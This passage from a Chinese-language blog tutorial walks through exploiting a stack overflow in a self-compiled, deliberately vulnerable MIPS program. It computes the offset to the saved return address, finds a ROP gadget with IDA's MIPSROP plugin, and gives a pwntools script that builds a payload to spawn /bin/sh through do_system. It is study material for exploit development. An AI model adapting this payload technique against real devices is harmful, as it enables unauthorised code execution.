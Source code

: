 其次是编译该程序，使用下面的命令编译得到程序 `stack_vuln`。
```C
mipsel-linux-gcc -static stack_vuln.c -o stack_vuln
```
将编译生成的程序拖到IDA里面查看，确定输入字符串长度为多少时可以覆盖到$ra,可以得到：
```C
offset=saved_ra-buf_addr=-0x4-0x1a0=0x19c
```
接着是要搞清楚用什么覆盖`$ra`,源程序里面我们看到`do_system`函数，只需要布置好第二个参数寄存器`$a1`，同时将`$ra`覆盖为`do_system`地址即可。使用ida插件MIPSROP寻找gadget。
```C
Python>mipsrop.stackfinders()
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x004038D0  |  addiu $a1,$sp,0x58+var_40                           |  jr    0x58+var_4($sp)                 |
----------------------------------------------------------------------------------------------------------------
```
可以看到要在`$sp+0x18`的位置放入`/bin/sh`同时在`$sp+0x54`的位置放入`do_system`函数的位置就可以得到shell。
最后写出来生成passwd的脚本文件为：
```PYTHON
from pwn import *

do_system_addr=0x400390
stack_finder_addr=0x004038D0
f=open("passwd","wb")
data='a'*(0x1a0-4)
data+=p32(stack_finder_addr)
data+='a'*0x18
data+='/bin/sh\x00'
data=data.ljust(0x1a0+0x54,'a')
data+=p32(do_system_addr)
f.write(data)
f.close()
```
可以使用gdb-multiarch调试跟踪程序的执行过程。

## 小结
万事开头难，还有很长的路要走。相关脚本在我的[github](https://github.com/ray-cp/MIPS/tree/master/book_note/stack_vuln)

文章首发于[先知社区](https://xz.aliyun.com/t/4130)